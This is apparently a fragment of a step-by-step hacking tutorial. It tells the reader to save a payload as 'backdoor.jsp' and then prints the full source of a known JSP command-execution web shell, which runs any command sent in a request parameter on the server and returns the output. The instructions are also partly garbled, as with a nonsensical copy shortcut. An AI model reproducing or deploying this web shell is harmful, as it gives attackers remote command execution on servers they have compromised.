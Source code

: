 Open the code in raw form (click the **Raw** button):

![Step 7_1](img/html_adapter_to_root_7_1.png)

Copy the payload (press `CTRL+SHIFT+ALT`) and save it as **backdoor.jsp**:

```
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr); 
        disr = dis.readLine(); 
        }
    }
%>
</pre>
</BODY></HTML>
```

